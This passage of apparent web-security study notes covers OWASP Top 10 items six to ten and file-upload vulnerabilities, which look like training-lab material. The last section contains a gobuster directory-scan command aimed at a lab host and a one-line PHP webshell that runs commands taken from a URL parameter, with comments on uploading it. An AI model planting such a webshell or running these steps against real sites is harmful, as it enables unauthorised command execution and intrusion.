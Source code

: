   6. Security Misconfiguration:

     * Includes poorly configured permissions, having unnecessary features enabled, default accounts with unchanged passwords and overly detailed error messages.

  7. Cross-site Scripting:

     * XSS is a type of injection, allowing attacker to execute malicious scripts on victim machine.

     * Webapps are vulnerable to XSS if it uses unsanitized user input.

     * Three types of XSS are:

       * Stored XSS - malicious string originates from website's database.

       * Reflected XSS - payload is part of victim's request to website.

       * DOM-based XSS - webpage document can be displayed in browser or as code.

     * Common XSS payloads include pop-ups, HTML overriding, port scanning, etc.

  8. Insecure Deserialization:

     * Occurs when untrusted data is used to abuse app logic; it leverages legit serialization and deserialization process used by webapps.

     * Serialization is the process of converting programming objects into compatible formatting for further processing. Deserialization is converting serialized info into their complex form.

  9. Components with Known Vulnerabilities:

     * Occurs when a program is being used which already has a well-documented vulnerability.

  10. Insufficient Logging and Monitoring:

      * In webapps, every action performed by user should be logged in order to trace actions in the event of an incident.

      * Logs can store info such as HTTP status codes, timestamps, usernames, page locations and IP addresses.

* Upload vulnerabilities:

  * Overwriting existing files - if files are uploaded with the same name as files on the website, and there are no checks being conducted, there is a chance that we can overwrite the existing files.

  * Remote code execution -

    * Webshells -

      ```shell
      gobuster dir -u http://demo.uploadvulns.thm -w /usr/share/wordlists/directory-list.txt
      #scan website directories using gobuster
      #check for directories where files can be uploaded
      #if found, try to upload files like images

      #if the upload works, we can attempt to upload webshells
      #the webshell should be in the same language as the backend of the website
      #an example of a basic PHP webshell if <?php echo system($_GET["cmd"]);?>
      #this can let us execute commands
      ```
